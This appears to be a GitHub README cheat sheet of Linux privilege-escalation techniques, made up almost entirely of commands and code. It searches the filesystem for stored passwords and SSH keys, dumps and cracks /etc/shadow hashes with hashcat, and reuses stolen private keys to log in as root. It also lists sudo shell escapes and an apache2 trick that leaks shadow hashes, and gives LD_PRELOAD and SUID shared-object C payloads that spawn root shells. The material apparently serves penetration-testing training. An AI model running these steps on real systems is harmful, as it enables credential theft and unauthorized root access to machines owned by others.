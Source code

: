 # Linux Privesc

- [1. Search Stored Passwords from Config Files](#1-search-stored-passwords-from-config-files)
- [2. Fetching Passwords from /etc/shadow](#2-fetching-passwords-from-etcshadow)
- [3. Escalate Privileges with SSH Key](#3-escalate-privileges-with-ssh-key)
- [4. Shell Escaping via Sudo](#4-shell-escaping-via-sudo)
- [5. Using LD PRELOAD](#5-Using-LD-PRELOAD)
- [6. Privilege Escalation via SUID](#6-Privilege-Escalation-via-SUID)

## 1. Search Stored Passwords from Config Files
### Commands to Find Passwords and SSH Keys
- Search for all config files:
  ```sh
  find / -type f -name "config" 2>/dev/null
  ```
- Search for files containing the word "password":
  ```sh
  find / -type f -exec grep -il "password" {} 2>/dev/null \;
  ```
- Search for config files containing the word "password":
  ```sh
  find / -type f -name "config" -exec grep -il "password" {} 2>/dev/null \;
  ```
- Search for SSH keys:
  ```sh
  find / -name id_rsa 2>/dev/null
  ```
- Search command history for "password":
  ```sh
  history | grep -i "password"
  ```

## 2. Fetching Passwords from /etc/shadow
### Steps to Extract and Crack Password Hashes
1. Extract the `/etc/passwd` file:
   ```sh
   cat /etc/passwd
   ```
   Save output to `passwd.txt`.
2. Extract the `/etc/shadow` file:
   ```sh
   cat /etc/shadow
   ```
   Save output to `shadow.txt`.
3. Combine `passwd.txt` and `shadow.txt` into an unshadowed file:
   ```sh
   unshadow passwd.txt shadow.txt > unshadow.txt
   ```
4. Crack the hashes using Hashcat with the `rockyou.txt` wordlist:
   ```sh
   hashcat -m 1800 unshadow.txt rockyou.txt -O
   ```

## 3. Escalate Privileges with SSH Key
### Steps to Gain Root Access Using SSH Keys
1. Locate `authorized_keys` or `id_rsa` files:
   ```sh
   find / -name authorized_keys 2>/dev/null
   ```
   or
   ```sh
   find / -name id_rsa 2>/dev/null
   ```
2. Save the `id_rsa` file to your machine.
3. Set appropriate permissions for the `id_rsa` file:
   ```sh
   chmod 400 id_rsa
   ```
4. Attempt to access the root shell on the target machine:
   ```sh
   ssh -i id_rsa root@<target-ip>
   ```

## 4. Shell Escaping via Sudo
### Steps to Escalate Privileges Using Sudo
1. Check for sudo permissions:
   ```sh
   sudo -l
   ```
   
![Screenshot From 2025-05-09 22-29-02](https://github.com/user-attachments/assets/0c5884f1-c62c-4203-a7b6-7e503ae49065)<br>

   Output will show commands that can be run as root without a password.
   
1. Exploit passwordless sudo access to gain a root shell using one of the following:

   ```sh
   sudo find /bin -name nano -exec /bin/sh \;
   sudo awk 'BEGIN {system("/bin/sh")}'
   echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
   sudo vim -c '!sh'
   ```
2. Abusing Intended Functionality

   ```sh
   sudo apache2 -f /etc/shadow
   ```
Here, we're telling Apache (with root privileges) to treat /etc/shadow as its configuration file — which is not a valid Apache config, so Apache will try to parse it and fail, which will throw an error message with the hash from /etc/shadow. Now, save the hash in a file hash.txt and we can crack this hash using hashcat or john.
<br>

![Screenshot From 2025-05-09 23-08-43](https://github.com/user-attachments/assets/39d9ca62-ee96-48a8-86cb-fcede471e40e)

## 5. Using LD PRELOAD

LD_PRELOAD is a function that allows any program to use shared libraries. If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID. <br>
<br>
1. Check for LD_PRELOAD with the `env_keep` option using `sudo -l`
2. Type `nano x.c` and paste the code and save:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
2. Now type:
```sh
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
sudo LD_PRELOAD=/tmp/x.so apache2
id
```
In this case we are using `apache2`. We can use other programs if possible.

## 6. Privilege Escalation via SUID

Make note of all the SUID binaries `suid-so`, `suid-env`, `suid-env2` .

```sh
find / -type f -perm -04000 -ls 2>/dev/null
```

![Screenshot From 2025-05-10 00-49-01](https://github.com/user-attachments/assets/4707d42c-8710-4a46-b854-f7630e3ffcaf)

**SUID Shared Object Injection**

1. Search if there any .so file is missing from a writable directory. `/home/user/.config/libcalc.so`

```sh
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
```

![Screenshot From 2025-05-10 00-45-04](https://github.com/user-attachments/assets/5741fd84-80c5-4bd3-9651-930316755759)

2. Now create a `libcalc.c` file under the `/home/user/.config/` directory and paste the code:
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
3. Compile and run the file:
```sh
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
/usr/local/bin/suid-so
id
```

**SUID Environment Variables**

1. Search if there is any env variables `suid-env`

```sh
strings /usr/local/bin/suid-env
```

---

# short

getcap -r / 2>/dev/null (capabilities)

cat /etc/crontab (cron)

cat /etc/exports (nfs root)
